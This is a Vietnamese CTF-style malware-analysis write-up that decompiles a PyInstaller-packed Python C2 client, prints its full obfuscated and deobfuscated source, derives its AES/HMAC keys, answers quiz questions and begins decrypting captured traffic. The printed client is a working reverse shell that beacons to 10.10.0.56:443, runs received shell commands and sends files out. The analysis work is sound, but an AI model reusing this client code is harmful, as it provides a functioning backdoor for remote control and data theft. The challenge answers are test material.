

Trong thư mục được extract các file như `pyiboot01_bootstrap.pyc` và `pyimod*.pyc` thuộc PyInstaller, có nhiệm vụ khởi tạo Python runtime và hỗ trợ import module. Thư mục `PYZ.pyz_extracted/` chủ yếu chứa các thư viện Python được chương trình sử dụng, còn thư mục `Crypto/` là mã của thư viện PyCryptodome.

Trong khi đó, `client.pyc` nằm trực tiếp ở cấp gốc của archive, tên `client` cũng phù hợp với vai trò của malware là một client kết nối về máy chủ C2.

Vậy giờ cần disassemble `client.pyc` để chuyển Python bytecode thành dạng lệnh dễ đọc hơn, sử dụng https://pylingual.io/

```python
import hashlib
import base64
import struct
import socket
import time
import subprocess
import sys
import random
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from Crypto.Random import get_random_bytes
X7wR9t = 'ZQLJlA8BYg0iy1qFH0PwpB8tn8Y2DX0j'
def Fg3hY6(Ab4cD2):
    Mn7kL1 = hashlib.sha256(Ab4cD2.encode()).digest()
    Rt9wZ3 = hashlib.sha256(Mn7kL1 + b'encryption').digest()[:32]
    Yt5xP8 = hashlib.sha256(Mn7kL1 + b'hmac').digest()[:32]
    return (Rt9wZ3, Yt5xP8)
Pq2mN5, Zk8vL4 = Fg3hY6(X7wR9t)
def Jn2bM4(Lp6qR7):
    try:
        if len(Lp6qR7) % 4:
            Lp6qR7 += '=' * (4 - len(Lp6qR7) % 4)
        Ws3tV1 = base64.b64decode(Lp6qR7)
        Uy4fG9 = bytes([Ws3tV1[i] ^ 85 for i in range(len(Ws3tV1))])
        Cx8hJ2 = bytes([Uy4fG9[i] ^ 170 for i in range(len(Uy4fG9))])
        return Cx8hJ2.decode('utf-8')
    except:
        return ''
def Dv5kK3():
    return get_random_bytes(16)
def Ru8wD1(Fy2jE5):
    try:
        Kp6tF3 = base64.b64decode(Fy2jE5)
        Sr4xG7 = Kp6tF3[:16]
        Zt9yH2 = Kp6tF3[16:(-32)]
        Wq1zI8 = Kp6tF3[(-32):]
        Ns3aJ4 = hashlib.new('sha256', Zk8vL4 + Sr4xG7 + Zt9yH2).digest()
        if Wq1zI8!= Ns3aJ4:
            raise ValueError(Jn2bM4('t7K+vN+Jmo2WmZacnouWkJHfmZ6Wk5qb'))
        else:
            Tm5bK6 = AES.new(Pq2mN5, AES.MODE_CBC, Sr4xG7)
            Vr7cL9 = unpad(Tm5bK6.decrypt(Zt9yH2), AES.block_size)
            return Vr7cL9.decode()
    except Exception as Dg8dM0:
        return None
def Qw6rT1(Bn9mS4):
    if isinstance(Bn9mS4, bytes):
        Hj3lA7 = Bn9mS4
    else:
        Hj3lA7 = Bn9mS4.encode()
    Vc5xZ8 = Dv5kK3()
    Pl1oN2 = AES.new(Pq2mN5, AES.MODE_CBC, Vc5xZ8)
    Mg7uB6 = Pl1oN2.encrypt(pad(Hj3lA7, AES.block_size))
    Lt4vC9 = hashlib.new('sha256', Zk8vL4 + Vc5xZ8 + Mg7uB6).digest()
    return base64.b64encode(Vc5xZ8 + Mg7uB6 + Lt4vC9)
def Jl9eN3(Bk4fO2, Hw6gP5):
    Rv2hQ1 = Qw6rT1(Hw6gP5)
    Bk4fO2.sendall(struct.pack('>I', len(Rv2hQ1)) + Rv2hQ1)
def Mx7iR4(Gt3jS8):
    Ln1kT9 = Pn9wW1(Gt3jS8, 4)
    if not Ln1kT9:
        return
    else:
        Yb5lU6 = struct.unpack('>I', Ln1kT9)[0]
        Cq8mV2 = Pn9wW1(Gt3jS8, Yb5lU6)
        if not Cq8mV2:
            return
        else:
            return Ru8wD1(Cq8mV2)
def Pn9wW1(Uo4oX5, Za6pY3):
    Dr7qZ0 = b''
    while len(Dr7qZ0) < Za6pY3:
        Fw2rA4 = Uo4oX5.recv(Za6pY3 - len(Dr7qZ0))
        if not Fw2rA4:
            return
        Dr7qZ0 += Fw2rA4
    return Dr7qZ0
def Ve8sB7(Hj5tC1):
    try:
        Kd3uD9 = subprocess.check_output(Hj5tC1, shell=True, stderr=subprocess.STDOUT, timeout=10)
        return Kd3uD9.decode()
    except:
        return 'Failed'
def Sw1vE2():
    # irreducible cflow, using cdg fallback
    # ***<module>.Sw1vE2: Failure: Different control flow
    Mn9wF6 = '10.10.0.56'
    Gt4xG3 = 443
    Rz2zI1 = 30
    Lp7yH8 = Jn2bM4('vqy3oLyztqA=') + ''.join([chr(random.randint(97, 122)) for _ in range(20)])
    Jx6aS4 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    Jx6aS4.connect((Mn9wF6, Gt4xG3))
    Jl9eN3(Jx6aS4, Jn2bM4('vbq+vLCx34TPgt+EzoI=').format(Lp7yH8, time.time()))
    if Mx7iR4(Jx6aS4)!= Jn2bM4('vLe+s7O6sbi6'):
        pass
    try:
        Jx6aS4.close()
    except:
        return
    Jl9eN3(Jx6aS4, Jn2bM4('vLe+s7O6sbi6oK26rK+wsay6'))
    while True:
        Tb8bJ5 = Mx7iR4(Jx6aS4)
        if not Tb8bJ5:
            break
        else:
            if Tb8bJ5.startswith(Jn2bM4('u6ixs6C5trO63w==')):
                Yq3cK7 = Tb8bJ5.split(maxsplit=2)
                if len(Yq3cK7) >= 2:
                    Xk1dL2 = Yq3cK7[1]
                    if os.path.exists(Xk1dL2):
                        with open(Xk1dL2, 'rb') as f:
                            Vn5eM9 = f.read()
                        Jl9eN3(Jx6aS4, Jn2bM4('u6ixs6C7vqu+34TPgg==').format(base64.b64encode(Vn5eM9).decode()))
                        Mx7iR4(Jx6aS4)
                    else:
                        Jl9eN3(Jx6aS4, Jn2bM4('u6ixs6CxsKugubCqsbs='))
                        Mx7iR4(Jx6aS4)
            else:
                if Tb8bJ5.startswith(Jn2bM4('qq+zu6C5trO63w==')):
                    Yq3cK7 = Tb8bJ5.split(maxsplit=2)
                    if len(Yq3cK7) >= 2:
                        Dr9hP3 = Mx7iR4(Jx6aS4)
                        if Dr9hP3 and Dr9hP3.startswith(Jn2bM4('qq+zu6C7vqu+3w==')):
                            Vn5eM9 = base64.b64decode(Dr9hP3[len(Jn2bM4('qq+zu6C7vqu+3w==')):])
                            os.makedirs(os.path.dirname(Yq3cK7[1]), exist_ok=True)
                            with open(Yq3cK7[1], 'wb') as f:
                                f.write(Vn5eM9)
                            Jl9eN3(Jx6aS4, Jn2bM4('qq+zu6C+vLQ='))
                        else:
                            Jl9eN3(Jx6aS4, Jn2bM4('qq+zu6C5vraz'))
                else:
                    if Tb8bJ5.startswith(Jn2bM4('vLK73w==')):
                        Jl9eN3(Jx6aS4, Jn2bM4('sKqrr6qr34TPgt+EzoI=').format(Lp7yH8, Ve8sB7(Tb8bJ5[4:].strip())))
                    else:
                        if Tb8bJ5 == Jn2bM4('rLeqq7uwqLE='):
                            sys.stdout.flush()
                            Jx6aS4.close()
    try:
        Jx6aS4.close()
    except:
        pass
    time.sleep(Rz2zI1)
    pass
    try:
        pass
    except:
        pass
if __name__ == '__main__':
    Sw1vE2()
```

Trước tiên chú ý phần khởi tạo key

```python
def Fg3hY6(Ab4cD2):
    Mn7kL1 = hashlib.sha256(Ab4cD2.encode()).digest()
    Rt9wZ3 = hashlib.sha256(Mn7kL1 + b'encryption').digest()[:32]
    Yt5xP8 = hashlib.sha256(Mn7kL1 + b'hmac').digest()[:32]
    return (Rt9wZ3, Yt5xP8)
Pq2mN5, Zk8vL4 = Fg3hY6(X7wR9t)
```

Hàm Fg3hY6 nhận chuỗi hard-code X7wR9t, tạo một giá trị SHA-256 trung gian rồi dẫn xuất hai giá trị khác nhau:

Rt9wZ3 → sinh với chuỗi b"encryption"

Yt5xP8 → sinh với chuỗi b"hmac"

Hai giá trị này được gán lần lượt:

Pq2mN5 = Rt9wZ3

Zk8vL4 = Yt5xP8

Tới đây vẫn cần xác định biến nào thực sự được dùng cho AES. Trong hàm mã hóa Qw6rT1 có lời gọi



Hàm giải mã Ru8wD1 cũng dùng



Trong cả hai trường hợp, Pq2mN5 đều là đối số đầu tiên của AES.new(), nên đây chính là AES key. Mà trước đó:

Pq2mN5 = Rt9wZ3

Do đó, tính lại giá trị Pq2mN5 rồi lấy MD5 trên 32 byte key:

```python
import hashlib
X7wR9t = "ZQLJlA8BYg0iy1qFH0PwpB8tn8Y2DX0j"
Mn7kL1 = hashlib.sha256(X7wR9t.encode()).digest()
Rt9wZ3 = hashlib.sha256(
    Mn7kL1 + b"encryption"
).digest()[:32]
Pq2mN5 = Rt9wZ3
print("", hashlib.md5(Pq2mN5).hexdigest())
```


**Đáp án:** `6ffc06ff97ec037753feda5354b650b3`

## 4. A custom prefix is used in client ID generation, which is it?

Trong hàm Sw1vE2, client tạo biến Lp7yH8



Phần:

```python
chr(random.randint(97, 122))
```

tạo một ký tự ASCII từ a đến z. Thao tác này lặp lại 20 lần, nên cấu trúc của Lp7yH8 là:

[chuỗi cố định] + [20 ký tự chữ thường ngẫu nhiên]

Để xác nhận Lp7yH8 là client ID, có thể thấy nó được sử ở 2 nơi





Nhận thấy cần phải biết hàm decrypt các strings obfuscate, cần phân tích trước



Hàm nhận vào một chuỗi đã bị làm rối. Đầu tiên, nó bổ sung dấu = nếu độ dài chuỗi chưa hợp lệ với Base64. Sau đó chuỗi được Base64 decode và lưu vào Ws3tV1.

Tiếp theo, từng byte của dữ liệu được XOR với 85, rồi kết quả tiếp tục được XOR với 170. Cuối cùng, dãy byte thu được được decode dưới dạng UTF-8 để trả về chuỗi plaintext

Khi hiểu logic hàm deobfuscate, deobfuscate các chuỗi rồi thay lại và script để nhìn dễ hơn

```python
import hashlib
import base64
import struct
import socket
import time
import subprocess
import sys
import random
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from Crypto.Random import get_random_bytes
X7wR9t = "ZQLJlA8BYg0iy1qFH0PwpB8tn8Y2DX0j"
def Fg3hY6(Ab4cD2):
    Mn7kL1 = hashlib.sha256(Ab4cD2.encode()).digest()
    Rt9wZ3 = hashlib.sha256(Mn7kL1 + b"encryption").digest()[:32]
    Yt5xP8 = hashlib.sha256(Mn7kL1 + b"hmac").digest()[:32]
    return Rt9wZ3, Yt5xP8
Pq2mN5, Zk8vL4 = Fg3hY6(X7wR9t)
def Jn2bM4(Lp6qR7):
    try:
        if len(Lp6qR7) % 4:
            Lp6qR7 += '=' * (4 - len(Lp6qR7) % 4)
        Ws3tV1 = base64.b64decode(Lp6qR7)
        Uy4fG9 = bytes([Ws3tV1[i] ^ 85 for i in range(len(Ws3tV1))])
        Cx8hJ2 = bytes([Uy4fG9[i] ^ 170 for i in range(len(Uy4fG9))])
        return Cx8hJ2.decode('utf-8')
    except:
        return ''
def Dv5kK3():
    return get_random_bytes(16)
def Ru8wD1(Fy2jE5):
    try:
        Kp6tF3 = base64.b64decode(Fy2jE5)
        Sr4xG7 = Kp6tF3[:16]
        Zt9yH2 = Kp6tF3[16:-32]
        Wq1zI8 = Kp6tF3[-32:]
        Ns3aJ4 = hashlib.new(
            "sha256",
            Zk8vL4 + Sr4xG7 + Zt9yH2,
        ).digest()
        if Wq1zI8 != Ns3aJ4:
            raise ValueError("HMAC verification failed")
        Tm5bK6 = AES.new(Pq2mN5, AES.MODE_CBC, Sr4xG7)
        Vr7cL9 = unpad(
            Tm5bK6.decrypt(Zt9yH2),
            AES.block_size,
        )
        return Vr7cL9.decode()
    except Exception as Dg8dM0:
        return None
def Qw6rT1(Bn9mS4):
    if isinstance(Bn9mS4, bytes):
        Hj3lA7 = Bn9mS4
    else:
        Hj3lA7 = Bn9mS4.encode()
    Vc5xZ8 = Dv5kK3()
    Pl1oN2 = AES.new(Pq2mN5, AES.MODE_CBC, Vc5xZ8)
    Mg7uB6 = Pl1oN2.encrypt(
        pad(Hj3lA7, AES.block_size)
    )
    Lt4vC9 = hashlib.new(
        "sha256",
        Zk8vL4 + Vc5xZ8 + Mg7uB6,
    ).digest()
    return base64.b64encode(
        Vc5xZ8 + Mg7uB6 + Lt4vC9
    )
def Jl9eN3(Bk4fO2, Hw6gP5):
    Rv2hQ1 = Qw6rT1(Hw6gP5)
    Bk4fO2.sendall(
        struct.pack(">I", len(Rv2hQ1)) + Rv2hQ1
    )
def Mx7iR4(Gt3jS8):
    Ln1kT9 = Pn9wW1(Gt3jS8, 4)
    if not Ln1kT9:
        return
    Yb5lU6 = struct.unpack(">I", Ln1kT9)[0]
    Cq8mV2 = Pn9wW1(Gt3jS8, Yb5lU6)
    if not Cq8mV2:
        return
    return Ru8wD1(Cq8mV2)
def Pn9wW1(Uo4oX5, Za6pY3):
    Dr7qZ0 = b""
    while len(Dr7qZ0) < Za6pY3:
        Fw2rA4 = Uo4oX5.recv(
            Za6pY3 - len(Dr7qZ0)
        )
        if not Fw2rA4:
            return
        Dr7qZ0 += Fw2rA4
    return Dr7qZ0
def Ve8sB7(Hj5tC1):
    try:
        Kd3uD9 = subprocess.check_output(
            Hj5tC1,
            shell=True,
            stderr=subprocess.STDOUT,
            timeout=10,
        )
        return Kd3uD9.decode()
    except Exception:
        return "Failed"
def Sw1vE2():
    Mn9wF6 = "10.10.0.56"
    Gt4xG3 = 443
    Rz2zI1 = 30
    Lp7yH8 = "ASH_CLI_" + "".join(
        chr(random.randint(97, 122))
        for _ in range(20)
    )
    Jx6aS4 = socket.socket(
        socket.AF_INET,
        socket.SOCK_STREAM,
    )
    Jx6aS4.connect((Mn9wF6, Gt4xG3))
    Jl9eN3(
        Jx6aS4,
        "BEACON {0} {1}".format(
            Lp7yH8,
            time.time(),
        ),
    )
    if Mx7iR4(Jx6aS4) != "CHALLENGE":
        pass
    try:
        Jx6aS4.close()
    except Exception:
        return
    Jl9eN3(
        Jx6aS4,
        "CHALLENGE_RESPONSE",
    )
    while True:
        Tb8bJ5 = Mx7iR4(Jx6aS4)
        if not Tb8bJ5:
            break
        if Tb8bJ5.startswith("DWNL_FILE "):
            Yq3cK7 = Tb8bJ5.split(maxsplit=2)
            if len(Yq3cK7) >= 2:
                Xk1dL2 = Yq3cK7[1]
                if os.path.exists(Xk1dL2):
                    with open(Xk1dL2, "rb") as f:
                        Vn5eM9 = f.read()
                    Jl9eN3(
                        Jx6aS4,
                        "DWNL_DATA {0}".format(
                            base64.b64encode(
                                Vn5eM9
                            ).decode()
                        ),
                    )
                    Mx7iR4(Jx6aS4)
                else:
                    Jl9eN3(
                        Jx6aS4,
                        "DWNL_NOT_FOUND",
                    )
                    Mx7iR4(Jx6aS4)
        else:
            if Tb8bJ5.startswith("UPLD_FILE "):
                Yq3cK7 = Tb8bJ5.split(maxsplit=2)
                if len(Yq3cK7) >= 2:
                    Dr9hP3 = Mx7iR4(Jx6aS4)
                    if (
                        Dr9hP3
                        and Dr9hP3.startswith("UPLD_DATA ")
                    ):
                        Vn5eM9 = base64.b64decode(
                            Dr9hP3[len("UPLD_DATA "):]
                        )
                        os.makedirs(
                            os.path.dirname(Yq3cK7[1]),
                            exist_ok=True,
                        )
                        with open(
                            Yq3cK7[1],
                            "wb",
                        ) as f:
                            f.write(Vn5eM9)
                        Jl9eN3(
                            Jx6aS4,
                            "UPLD_ACK",
                        )
                    else:
                        Jl9eN3(
                            Jx6aS4,
                            "UPLD_FAIL",
                        )
            else:
                if Tb8bJ5.startswith("CMD "):
                    Jl9eN3(
                        Jx6aS4,
                        "OUTPUT {0} {1}".format(
                            Lp7yH8,
                            Ve8sB7(
                                Tb8bJ5[4:].strip()
                            ),
                        ),
                    )
                elif Tb8bJ5 == "SHUTDOWN":
                    sys.stdout.flush()
                    Jx6aS4.close()
    try:
        Jx6aS4.close()
    except Exception:
        pass
    time.sleep(Rz2zI1)
    try:
        pass
    except Exception:
        pass
if __name__ == "__main__":
    Sw1vE2()
```



Đầu tiên, ngay sau khi socket kết nối tới server, client gửi thông điệp có dạng:

```text
BEACON <Lp7yH8> <timestamp>’
```

Sau đó, khi nhận command bắt đầu bằng CMD, client thực thi lệnh và gửi kết quả



```text
OUTPUT <Lp7yH8> <command_output>
```

Việc cùng một giá trị Lp7yH8 được dùng trong cả gói BEACON ban đầu và gói OUTPUT cho thấy đây chính là client ID, giúp C2 xác định beacon và kết quả command thuộc về client nào.

Quay lại đoạn khởi tạo biến, vì đã thay thế chuỗi bằng chuỗi sau khi deobfuscate



Giờ dễ thấy chuỗi prefix cố định của client ID là ASH_CLI_

**Đáp án:** `ASH_CLI_`

## 5. Which is the custom command that initiates file upload?

Khi 1 server C2 upload 1 file tới máy nạn nhân, thường sẽ ghi nhận hành động ghi file xuống, vì vậy tìm nhánh có hành vi nhận dữ liệu rồi ghi xuống file



Nhánh upload bắt đầu khi message nhận từ C2 có prefix `UPLD_FILE `. Sau đó chương trình tách command để lấy đường dẫn đích tại `Yq3cK7[1]`, rồi chờ một message thứ hai bắt đầu bằng `UPLD_DATA `.

Phần sau `UPLD_DATA ` được Base64 decode và ghi xuống đường dẫn đích bằng chế độ `wb`.

Như vậy:

- UPLD_FILE <path>  → khởi tạo quá trình upload và chỉ định nơi lưu
- UPLD_DATA <data>  → mang nội dung file thực tế

Do câu hỏi yêu cầu command khởi tạo file upload, đáp án là: UPLD_FILE

**Đáp án:** `UPLD_FILE`

## 6. Which is the variable name that stores the output of the command executed on the system?



Biến `Hj5tC1` chứa command cần thực thi. Hàm `subprocess.check_output()` chạy command và trả về toàn bộ output dưới dạng bytes. Kết quả trả về được gán trực tiếp vào biến:

```python
Kd3uD9 = subprocess.check_output(...)
```

Ngay sau đó chương trình gọi `Kd3uD9.decode()` để chuyển output thành chuỗi rồi trả về. Vì vậy biến lưu output của command là: Kd3uD9

**Đáp án:** `Kd3uD9`

## 7. Which is the second executed command in the encrypted reverse shell session?

Câu này không thể lấy trực tiếp từ client.py, vì source chỉ cho biết client xử lý command như thế nào, còn các command thực tế attacker đã gửi nằm trong capture.pcap



Hàm gửi Jl9eN3()

Mỗi message được gửi dưới dạng:

```text
[4 byte độ dài big-endian][dữ liệu mã hóa]
```



Hàm nhận Mx7iR4() thực hiện ngược lại

Còn Ru8wD1() cho biết cách giải encrypted message



Ở hàm `Sw1vE2()` xác định được C2 server có địa chỉ `10.10.0.56:443`.



Vì command được gửi theo chiều C2 server → malware client, nên dùng `tshark` để lấy toàn bộ TCP payload có địa chỉ nguồn `10.10.0.56` và source port `443`

```bash
tshark -r capture.pcap -Y 'ip.src==10.10.0.56&&tcp.srcport==443&&tcp.len>0' -Tfields -e tcp.payload 2>/dev/null | tr -d '\n' | xxd -r -p > s2c.bin
```

Sau đó sử dụng script để decrypt data

```python
import base64
import hashlib
import struct
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
KEY = hashlib.sha256(b"ZQLJlA8BYg0iy1qFH0PwpB8tn8Y2DX0j").digest()
ENC_KEY = hashlib.sha256(KEY + b"encryption").digest()[:32]
MAC_KEY = hashlib.sha256(KEY + b"hmac").digest()[:32]
def decrypt(raw):
    iv, ct, mac = raw[:16], raw[16:-32], raw[-32:]
